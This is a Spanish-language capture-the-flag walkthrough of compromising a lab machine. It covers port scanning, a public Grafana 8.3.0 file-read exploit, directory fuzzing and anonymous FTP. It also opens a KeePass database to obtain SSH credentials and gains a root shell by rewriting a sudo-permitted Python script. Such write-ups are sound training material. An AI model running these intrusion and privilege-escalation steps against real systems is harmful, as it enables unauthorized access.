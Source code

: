 Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 10.10.11.253 -oN escaneo
```
![alt text](image.png)

Vemos que tenemos un servidor apache 2.4..58 corriendo en el puerto 80. Y un a aplicación web corriendo en el puerto 3000, así que vamos a ver que esconde esta.
![alt text](image-1.png)

Vemos a ver con la herramienta `wappalyzer` la versíon de esta aplicación web.
![alt text](image-2.png)

Vemos que la versión es `Grafana 8.3.0`, así que vamos a ver si tienen algun exploit.
```
searchsploit grafana 8.3.0
```
![alt text](image-3.png)

Vemos que tiene un exploit, así que vamos a buscarlo. 
```
Link: https://www.exploit-db.com/exploits/50581
```

Una vez lo tenemos descargado lo vamos a usar para leer archivos del servidor.
```
python3 50581.py -H http://172.17.0.2:3000
```
![alt text](image-4.png)

Al no saber que archivo buscar, vamos a hacer un fuzzing de la web para ver si podemos encontrar una pista.
```
gobuster dir -u http://172.17.0.2 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html
```
![alt text](image-5.png)

Vemos que nos da un archivo llamado `maintenance.html`, así que vamos a ver que esconde.
![alt text](image-6.png)

Vemos que nos da una ruta de un archivo, así que vamos a buscarlo.
```
/tmp/pass.txt
```
![alt text](image-7.png)

Vemos que nos da como una especie de password, así que nos lo vamos a guardar para más adelante. Ahora vamos a intentar entrar al servicio ftp con las claves por defecto.
```
ftp 172.17.0.2
user: anonymous
password: 
```
![alt text](image-8.png)

Vemos que hay una carpeta llamada mantenimiento, vamos a ver que nos esconde.
![alt text](image-9.png)

Vemos que hay un archivo llamado `database.kdbx`. Esta extension corresponde a un keepass (aplicaciones para guardar contraseñas.), vamos a descargarlo para poderlo ejecutar.
```
get database.kdbx
```
![alt text](image-10.png)

Una vez descargado vamos a abririrlo.
```
keepass2 database.kdbx
```
![alt text](image-11.png)

Vemos que esto nos mustra como una especie de login.
![alt text](image-12.png)

Este nos pide una contraseña, así que vamos a probar con las password que hemos sacado antes. Vemos que nos lo ha aceptado y nos muestra un usuario junto a una contraseña.
![alt text](image-13.png)

Veamos que contraseña corresponde al usuario freddy.
![alt text](image-14.png)

Vamos a probar este usuario y esta password en el servicio ssh.
```
ssh freddy@172.17.0.2
password: t9sH76gpQ82UFeZ3GXZS
```
![alt text](image-15.png)

Vemos que ya estamos dentro, vamos a intentar conseguir los máximos privilegios. Para ello vamos a ver que binarios tinen los permisos de administrador.
```
sudo -l
```
![alt text](image-16.png)

Vemos que tenemos todos los privilegios en el binario python3 y a este se le permite ejecutar un archivo, así que vamos a modificar este.
```
echo "import os; os.system('/bin/bash');">/opt/maintenence.py
```
![alt text](image-17.png)

Ahora vamos a ejecutar el archivo junto al binario con los permisos de administrador para generarnos la shell de administrador.
```
sudo /usr/bin/python3 /opt/maintenence.py
```
![alt text](image-18.png)